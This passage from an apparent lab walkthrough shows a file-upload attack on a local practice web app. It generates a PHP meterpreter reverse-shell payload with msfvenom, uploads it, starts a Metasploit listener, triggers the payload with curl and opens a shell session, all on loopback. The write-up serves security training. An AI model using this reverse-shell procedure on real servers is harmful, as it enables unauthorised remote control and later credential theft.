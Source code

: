     ```shell
    msfvenom -p php/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > revshell.php
    [-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
    [-] No arch selected, selecting arch: php from the payload
    No encoder specified, outputting raw payload
    Payload size: 1110 bytes
    ```

    ![](msfvenom_payload.png)

2. Upload the file:

    ![](msfvenom_uploaded.png){: width='75%'}

3. Set up the a listener within `msfconsole`:

    ```shell
    msfconsole -q
    msf6 > use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost 127.0.0.1
    lhost => 127.0.0.1
    msf6 exploit(multi/handler) >
    msf6 exploit(multi/handler) > run

    [!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
    [*] Started reverse TCP handler on 127.0.0.1:4444
    ```

4. Call the uploaded `msfvenom` payload:

    ```shell
    curl http://127.0.0.1:42001/hackable/uploads/revshell.php
    ```

5. Catch the reverse shell:

    ```shell
    msf6 exploit(multi/handler) > run

    [!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
    [*] Started reverse TCP handler on 127.0.0.1:4444
    [*] Sending stage (39927 bytes) to 127.0.0.1
    [*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:46378) at 2023-12-10 13:31:06 +0000

    meterpreter >
    ```

6. As an extra step, we could use one of the MSF's post-exploitation modules, such as the [Local Exploit Suggester](https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/), to check our options for lateral movement, privilege escalation, crendential gathering, etc.:
